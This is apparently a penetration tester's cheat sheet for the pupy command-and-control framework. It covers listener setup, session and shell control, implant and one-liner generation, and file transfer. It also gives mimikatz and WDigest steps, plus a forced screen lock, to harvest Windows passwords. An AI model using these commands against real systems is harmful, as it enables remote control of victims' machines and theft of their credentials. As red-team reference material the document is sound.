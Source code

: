 === pupy

https://github.com/n1nj4sec/pupy

pupy is a fun little Command and Control (C2) and implant written in python and C. It has a few oneliner clients that make it fairly versatile.

==== Setting up the listeners

The webserver isn't really a listener, but is used to deliver payloads to oneliners.

[cols="1,1", options="header"]
|===
|Command                               |Description
|`config list webserver`               |Get webserver configuration
|`config set webserver listen ADDRESS` |Change webserver port. Must save and restart if changed.
|`config save`                         |Save config
|===

The default config has an `ssl` listener ready to go on port 443. There's not much to configure here.

[cols="1,1", options="header"]
|===
|Command                         |Description
|`config set listeners ssl 8443` |Change port of ssl listener
|===

There's a udp listener available. It needs to be configured before use.

[cols="1,1", options="header"]
|===
|Command                              |Description
|`config set listeners udp_secure 53` |Change port of udp_secure listener
|`listen -a udp_secure`               |Start udp_secure listener
|===

==== Interacting

[cols="1,3", options="header"]
|===
|Command         |Description
|`sessions`      |List current sessions
|`sessions -i N` |Interact with a specific one, if multiple.
|`shell`         |Start an interactive shell on the current session.
|`sessions -K`   |Request all sessions to exit
|===

<<<

==== Generating clients

pupy calls the implants clients. Clients are generated with the `gen` command

  gen GENFLAG connect CONNECTFLAG

[cols="1,1", options="header"]
|===
|`gen` Flags                           |Description
|`-f client\|py_onliner\|ps1_oneliner` |Generate a standalone client or python or powershell oneliner.
|`-O windows\|linux`                   |Set OS
|`-A x86\|x64`                         |Set arch
|===

[cols="1,1", options="header"]
|===
|Connect Flags        | Description
|`-t ssl\|udp_secure` |Type of connection, ssl or udp_secure
|`--host ADDRESS`     |IP and port of listener
|===

==== File transfer

[cols="1,3", options="header"]
|===
|Command                           |Description
|`download remote_path local_path` |Download a file
|`upload local_path remote_path`   |Upload a file
|===

==== Modules of note

NOTE: TODO

  mimikatz --wdigest check

Check to see if WDigest is enabled via the `UseLogonCredential` registry key.

  mimikatz --wdigest enable

Enable WDigest if it's not enabled.

  lock_screen

Force the screen to lock and the user to reenter creds. This needs to be run as the logged in user, not NT AUTHORITY\\SYSTEM.

  mimikatz

Use mimikatz to run `loginPasswords` and add any passwords found, via WDigest or otherwise, to `creds`.

==== Common snippets

  gen -f py_oneliner -O linux -A x64 connect -t ssl --host localhost:443

Generate a python oneliner

  gen -f client -O windows -A x64 -o /tmp/pupy.exe connect -t ssl --host localhost:443 --host localhost:8443

Generate an executable for windows
<<<

